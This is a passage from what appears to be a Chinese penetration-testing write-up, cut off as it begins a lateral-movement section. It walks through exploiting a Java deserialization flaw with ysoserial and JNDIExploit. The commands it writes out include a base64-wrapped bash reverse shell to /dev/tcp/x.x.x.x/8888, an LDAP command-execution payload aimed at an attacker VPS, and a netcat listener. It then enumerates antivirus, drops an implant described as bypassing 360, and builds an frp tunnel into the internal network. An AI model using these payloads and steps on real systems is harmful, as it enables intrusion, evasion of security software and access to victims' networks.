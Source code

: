 ![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220926092056.png)  

dnslog有回显，接下来就是拿shell了，这里由于固定思维，之前遇到的都是linux系统，先入为主觉得是Linux，结果没利用成功，一开始以为是防火墙拦截，后面探测了一下目录结构，发现是windows，所以这里payload要改变一下

  

这里可以通过网站快速生成payload  
https://x.hacking8.com/java-runtime.html

  *   *   *   *   *   *   *   *   * 

    
    
    Linux：java -cp ysoserial-0.0.8-SNAPSHOT-all.jar ysoserial.exploit.JRMPListener 88 CommonsBeanutils1 "bash -c {echo,字段}|{base64,-d}|{bash,-i}"  字段=bash -i >& /dev/tcp/x.x.x.x/8888 0>&1 base64后的值  nc -lvp 端口  
    Windows：java -jar JNDIExploit-1.0-SNAPSHOT.jar -i VPS地址  java -cp ysoserial-0.0.6-SNAPSHOT-1.8.3.jar ysoserial.exploit.JRMPListener 88 CommonsBeanutils2 "ldap://VPS地址:1389/Basic/Command/Base64/d2hvYW1p"  d2hvYW1p为命令的base64，这里是执行命令whoami

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220926092057.png)  

 **0x02 内网渗透**

 **杀软识别**  

拿到一台机器后，一般先看一下安装了什么安全防护产品

  * 

    
    
    tasklist /svc

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220926092059.png)

  

探测了一下发现安装了360，把之前准备好的bypass360马子扔上去，成功上线![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220926092101.png)  

##

##  **隧道搭建**

ping了一下发现机器出网，可以上frp搭建反向代理隧道

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220926092102.png)

  

proxifier配置相应的端口账密便可以进入内网![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220926092103.png)

  

 **横向思路**

  *   *   * 

    